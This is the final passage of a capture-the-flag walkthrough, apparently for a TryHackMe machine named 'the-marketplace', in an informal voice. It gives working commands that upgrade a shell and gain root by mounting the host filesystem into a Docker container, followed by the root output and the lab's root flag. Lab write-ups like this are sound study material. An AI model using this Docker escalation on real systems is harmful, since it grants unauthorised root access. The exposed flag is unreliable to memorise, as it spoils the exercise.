 Docker is a root servce so we can mount it on our machine for root shell

you can visit Gtfobins for this one

First get comfortable

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
michael@the-marketplace:/opt/backups$
```

second get root

```
michael@the-marketplace:/opt/backups$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
t /mnt shn -v /:/mnt --rm -it alpine chroot
# uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

then get paid!

```
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{a_root_flag_for_about_three_fiddies}

```

Nice customer service

Would recommand this marketplace 100% !




